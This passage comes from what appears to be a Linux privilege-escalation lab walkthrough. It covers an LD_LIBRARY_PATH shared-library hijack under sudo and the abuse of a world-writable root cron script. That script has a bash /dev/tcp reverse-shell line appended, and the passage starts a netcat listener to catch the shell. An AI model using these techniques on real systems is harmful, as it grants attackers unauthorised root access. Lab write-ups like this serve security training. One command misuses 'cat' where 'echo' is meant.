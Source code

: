 ```diff
+void pcre_free(){}

+$ gcc -o /tmp/libpcre.so.3 -shared -fPIC tools/sudo/library_path.c 
 $ sudo LD_LIBRARY_PATH=/tmp apache2

 root@debian:/home/user# groups
 root

```
It doesn't work, so we edited the /home/user/tools/sudo/library_path.c as shown above, so that we satisfy the compiler and it then works!

### Task8: Cron Jobs - File Permissions

#### View the contents of the system-wide crontab:

```diff
$ cat /etc/crontab

  # /etc/crontab: system-wide crontab
  # Unlike any other crontab you don't have to run the `crontab'
  # command to install the new version when you edit this file
  # and files in /etc/cron.d. These files also have username fields,
  # that none of the other crontabs do.

  SHELL=/bin/sh
  PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

  # m h dom mon dow user	command
  17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
  25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
  47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
  52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
  #
+ * * * * * root overwrite.sh                      ---------> 1st cronjob
+ * * * * * root /usr/local/bin/compress.sh        -----> 2nd cronjob
```
We can manipulate the contents wihtin it to  privesc, but before that we have to know that what is the status(permission) of those 2 files.
```
$ locate overwrite.sh
/usr/local/bin/overwrite.sh
```
We got that overwrite.sh has **rw** perm for **others**
```
$ cat /usr/local/bin/overwrite.sh
#!/bin/bash

echo `date` > /tmp/useless

$ cat "bash -i >& /dev/tcp/{ip}/4444 0>&1" >> /usr/local/bin/overwrite.sh
```
#### Then set up a listener:
```
$ nc -nlvp 4444
```
#### Then we will ge the shell
